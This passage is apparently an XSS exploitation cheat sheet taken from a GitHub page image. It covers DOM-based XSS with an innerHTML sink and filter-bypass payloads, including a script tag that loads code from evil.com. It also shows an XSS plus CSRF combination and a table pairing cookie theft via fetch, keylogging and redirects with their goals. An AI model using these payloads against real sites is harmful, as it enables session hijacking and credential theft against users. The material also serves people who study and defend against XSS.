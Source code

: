 ### 🧠 DOM-Based XSS

* Exploit client-side JavaScript logic:
  ```js
  let name = location.hash.substring(1);
  document.body.innerHTML = name;
  ```
* URL: `https://site.com/#<img src=x onerror=alert(1)>`

### 🧪 Bypassing Filters

* Encode payload:
  ```html
  <script src=//evil.com/xss.js></script>
  ```
* Use event handlers:
  ```html
  <img src=x onerror=alert(1)>
  ```

### 🧨 XSS + CSRF Combo

* Use XSS to steal CSRF token, then perform CSRF attack.

---

## 🔐 Real-World Impact

* **Account takeover** : Steal session cookies
* **Data theft** : Read private messages, emails, or files
* **Privilege escalation** : Modify user roles or permissions
* **Internal network access** : Use browser as a pivot
* **Reputation damage** : Deface site or redirect users

---

## ✅ Final Summary

| Exploit Type | Goal              | Example                                |
| ------------ | ----------------- | -------------------------------------- |
| Cookie Theft | Hijack session    | `document.cookie`→`fetch()`       |
| Keylogging   | Capture input     | `document.onkeypress`                |
| CSRF Trigger | Abuse trust       | `fetch(..., credentials: 'include')` |
| Phishing     | Steal credentials | Fake form injection                    |
| Redirect     | Move user to trap | `location.href='evil.com'`           |

> XSS exploitation is about **turning trust into a weapon** — the browser trusts the site, and the attacker abuses that trust to hijack the user.

---